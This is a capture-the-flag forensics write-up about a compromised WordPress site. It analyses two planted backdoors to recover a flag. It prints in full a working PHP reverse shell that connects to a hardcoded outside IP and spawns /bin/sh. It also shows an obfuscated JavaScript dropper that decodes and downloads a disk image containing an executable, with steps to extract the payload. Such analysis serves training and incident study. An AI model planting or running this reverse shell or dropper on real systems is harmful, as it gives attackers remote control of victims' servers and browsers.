









# WRITE_UP #

## FAKE NEWS ##
### 1. Analysis ###
* **Given:** a directory named `html`
* **Description:** The Magic Informer is our school's newspaper. Our system administrator and teacher, Nick, maintain it. But according to him, his credentials leaked while sharing his screen to present on a course. It is believed that Dark Pointy Hats got access to the Magic Informer, which they use to host their phishing campaign for freshmen people. Given the root folder of the Magic Informer, can you investigate what happened?
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### THE FIRST FLAG ####
So we were given the root folder of a `WordPress` page, let's use `VSCode` to investigate it.

Firstly, the `plugins` folder was my primary focus, in WordPress, when you install third-party components, those (maybe) malicious scripts and backdoors often appear here to give attacker access to WordPress environments.

I found the folder in the path: `html\wp-content\plugins\plugin-manager\plugin-manager.php`. Inside the file was a base64 encoded string hidden in `eval`:



Decode the string in CyberChef give me the first part of the flag: `HTB{C0m3_0n`



<details>
<summary>Click to see the full code</summary>

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '77.74.198.52';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$part1 = "HTB{C0m3_0n";
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
```
</details>

Looks like the code try to establish a `Reverse Shell` from the attacker server to ip `77.74.198.52`, port `4400`.

However I don't think this code do something more here so let's skip this script.

#### THE SECOND FLAG ####
After a few times scrolling through some meaningless `php` file, I see an obfuscated javascript script in `html\wp-blogs\2022\11\index.php`:



Let's copy the script and beautify it before trying to deobfuscate this:



<details>
<summary>Click here to see the full code</summary>

```javascript
(function (_0x1a4410, _0x4183eb) {
	var _0x4a1dd6 = _0x41f2, _0x445321 = _0x1a4410();
	while (!![]) {
		try {
			var _0x2d3cea = parseInt(_0x4a1dd6(477)) / 1 * (-parseInt(_0x4a1dd6(442)) / 2) + -parseInt(_0x4a1dd6(448)) / 3 + -parseInt(_0x4a1dd6(453)) / 4 + -parseInt(_0x4a1dd6(447)) / 5 * (parseInt(_0x4a1dd6(440)) / 6) + parseInt(_0x4a1dd6(474)) / 7 + parseInt(_0x4a1dd6(463)) / 8 * (parseInt(_0x4a1dd6(450)) / 9) + parseInt(_0x4a1dd6(458)) / 10 * (parseInt(_0x4a1dd6(441)) / 11);
			if (_0x2d3cea === _0x4183eb)
				break;
			else
				_0x445321['push'](_0x445321['shift']());
		} catch (_0x3b7d47) {
			_0x445321['push'](_0x445321['shift']());
		}
	}
}(_0x2568, 752834));

function base64ToArrayBuffer(_0x501839) {
	var _0x4d21b6 = _0x41f2, _0x41a59e = window[_0x4d21b6(446)](_0x501839), _0x4612ce = _0x41a59e[_0x4d21b6(460)], _0x29b7e1 = new Uint8Array(_0x4612ce);
	for (var _0x10c9ec = 0; _0x10c9ec < _0x4612ce; _0x10c9ec++) {
		_0x29b7e1[_0x10c9ec] = _0x41a59e[_0x4d21b6(439)](_0x10c9ec);
	}
	return _0x29b7e1;
}

function _0x41f2(_0xc50242, _0x11577a) {
	var _0x256885 = _0x2568();
	return _0x41f2 = function (_0x41f255, _0x2b0716) {
		_0x41f255 = _0x41f255 - 436;
		var _0x4c1e91 = _0x256885[_0x41f255];
		return _0x4c1e91;
	}, _0x41f2(_0xc50242, _0x11577a);
}

function itstime(_0x29f294, _0x2c4b0e) {
	var _0x2e5291 = _0x41f2, _0x3590d8 = new Uint8Array(_0x29f294);
	for (var _0x57ba00 = 0; _0x57ba00 < _0x3590d8['length']; _0x57ba00++) {
		k = _0x2c4b0e[_0x57ba00 % _0x2c4b0e[_0x2e5291(460)]], _0x3590d8[_0x57ba00] = _0x3590d8[_0x57ba00] ^ k[_0x2e5291(439)](0);
	}
	return _0x3590d8;
}
function _0x2568() {
	var _0x1af63a = [
		'Cxh5djBwRi4pQ0aKGVt3GXRaYQxuE2kVXUAwsDUZeDFeIEAFBHtrZGACMfIhNSVYQjg+en8hMTD2BSj/MTVABEE8RDQeH3V8hG0kt0dTKhV9dV4bIVx7KKADA65VcmshWR50OyMLIxybawf7OhoZcHwzP3xfHlVBphNqoV00JXVGHiMdAhopK5UHXf4YXT8TU3VBLkJxBAq7bXaiDR5hNx1UBj49MF05jjs4uFx7bUANHkNhHzQzdqMDN9gAAwY+LxoMdxkYOTmUCkOQRTUGb2VaMxkkXiI3lWFolSl1XiBOGHsTDXJtBZwCBqgdCjUyO1AOWUU4Ln7cLBv0dzMsfDolbQUGHlZm2yk0s2EXIQk8E2twEHQaG8FuOZMacQIuUHUEMTMfdxnJb...'
        // ...
		'839056yZMxxo'
	];
	_0x2568 = function () {
		return _0x1af63a;
	};
	return _0x2568();
}
var done = ![];
(function () {
	var _0x541d35 = _0x41f2;
	window[_0x541d35(438)] = function (_0x10f306) {
		var _0x38def1 = _0x541d35;
		if (!done) {
			// ...
			console[_0x38def1(437)](_0x2442a7), console[_0x38def1(437)](_0x195351);
			var _0x38a512 = new Blob([_0x195351], { 'type': _0x38def1(466) }), _0x562ab3 = document[_0x38def1(471)]('a');
			document['body']['appendChild'](_0x562ab3), _0x562ab3[_0x38def1(459)] = _0x38def1(462);
			var _0x324272 = window[_0x38def1(449)][_0x38def1(457)](_0x38a512);
			console['log'](_0x38a512), _0x562ab3['href'] = _0x324272, _0x562ab3[_0x38def1(451)] = _0x38def1(467), _0x562ab3[_0x38def1(455)](), done = !![];
		}
	};
}());
```
</details>

That's a crazily obfuscated javascript. However I spend my few hours to decrypt this so you don't need to. Here I used both `Static Analysis` and `Dynamic Analysis`. Let's break down the code:
1. The function `_0x2568` will return an array with some non-readable and some readable strings.
2. 
```js
(function (_0x1a4410, _0x4183eb) {
	var _0x4a1dd6 = _0x41f2, _0x445321 = _0x1a4410();
	while (!![]) {
		try {
			var _0x2d3cea = parseInt(_0x4a1dd6(477)) / 1 * (-parseInt(_0x4a1dd6(442)) / 2) + -parseInt(_0x4a1dd6(448)) / 3 + -parseInt(_0x4a1dd6(453)) / 4 + -parseInt(_0x4a1dd6(447)) / 5 * (parseInt(_0x4a1dd6(440)) / 6) + parseInt(_0x4a1dd6(474)) / 7 + parseInt(_0x4a1dd6(463)) / 8 * (parseInt(_0x4a1dd6(450)) / 9) + parseInt(_0x4a1dd6(458)) / 10 * (parseInt(_0x4a1dd6(441)) / 11);
			if (_0x2d3cea === _0x4183eb)
				break;
			else
				_0x445321['push'](_0x445321['shift']());
		} catch (_0x3b7d47) {
			_0x445321['push'](_0x445321['shift']());
		}
	}
}(_0x2568, 752834));
```
This function is executed right after the script ran. It assigns the strings array I mentioned to var `_0x445321`, var `_0x4a1dd6` is result of function `_0x41f2`:

```js
function _0x41f2(_0xc50242, _0x11577a) {
	var _0x256885 = _0x2568();
	return _0x41f2 = function (_0x41f255, _0x2b0716) {
		_0x41f255 = _0x41f255 - 436;
		var _0x4c1e91 = _0x256885[_0x41f255];
		return _0x4c1e91;
	}, _0x41f2(_0xc50242, _0x11577a);
}
```
This function also uses the strings array as input, however these lines catch my eyes:
```js
_0x41f255 = _0x41f255 - 436;
var _0x4c1e91 = _0x256885[_0x41f255];
```

If you link this number `436` to the above function where there is so much `parseInt` called with a numbers around 400 as argument. Then the function uses the number after being subtracted as the index of the strings array to assign to another var. So I acknowledged that's we need to subtract the number `436` first to get the real index of the strings array.

In javascript, if you `parseInt` a string starts with an integer then the func will return that integer. The `shift` then `push` there takes the first index 0 then push it behind the array, just like `enqueue` and `dequeue` when you work with C++ queue.

3. Function `base64ToArrayBuffer` tell us from the name that it just convert a base64 string to an array.
4. Function `itstime` looks quite similar to the base64 one. It also `_0x41f2` to hide the real index, so I can easily found the index `460` and `439` which is `length` and `charCodeAt`:

    

   * Deofuscating the func:
   ```js
   function itstime(_0x29f294, _0x2c4b0e) {
	var _0x2e5291 = _0x41f2, _0x3590d8 = new Uint8Array(_0x29f294);
	for (var i = 0; i < _0x3590d8['length']; i++) {
		k = _0x2c4b0e[i % _0x2c4b0e[length]],
        _0x3590d8[i] = _0x3590d8[i] ^ k[charCodeAt](0);
	}
	return _0x3590d8;
   }
   ```
    * We can find the time this func is called, the index `456` is `FlKLoA2q6A4UlkGFSjQh1gYJOEnD` whose length is 27:
  
    

    * So this func will create an array, the var `k` will repeatly be a character from index 0 to 26 in the string `FlKLoA2q6A4UlkGFSjQh1gYJOEnD` (by `i % 27`), then the character from the array created (`0x29f294`) will be xored with the decimal ascii code of `k`.
5. The last function is just a combine of all above functions we broke down before, however this func will automatically execute when the file is open 'cause something call `Execution Sink` or `Invoke Indicator`, in javascript an **IIFE:(Immediately Invoked Function Expression)** function will look like this (shoutout to bksec tho):
```js
(function(){
// ....
}());
```
So I just need to pull the command out of this function, then instead of invoking the malicious script I just write the payload to a file to investigate further. Let's do this:

```js
// Add this line to the first line of the script to import fs
const fs = require('fs');
// Delete the last function and copy this to the end of the script
function test() {
	var _0x541d35 = _0x41f2;
		var _0x38def1 = _0x541d35;
		if (!done) {
            var _0x509442 = '', _0x25da02 = // Copy the long code in the last func here
        // We can delete the part document[], window[] since if you decode those lines it only to inject the output to a html body
        done = !![];
		}
	return _0x195351;
}

var data = test();
fs.writeFileSync('output', Buffer.from(data));
```

After gaining the `output` file we need to see what type of file is that:



An iso disk, after renaming the file to `output.iso`, I use FTK Imager to analyze it further:



There's only a `.exe` file, I extracted it, then use `strings grep` to find the part 2, and there you go:



## 3. Solution ##
1. **Result:** The flag is `HTB{C0m3_0n_1t_w4s_t00_g00d_t0_b3_tru3}`


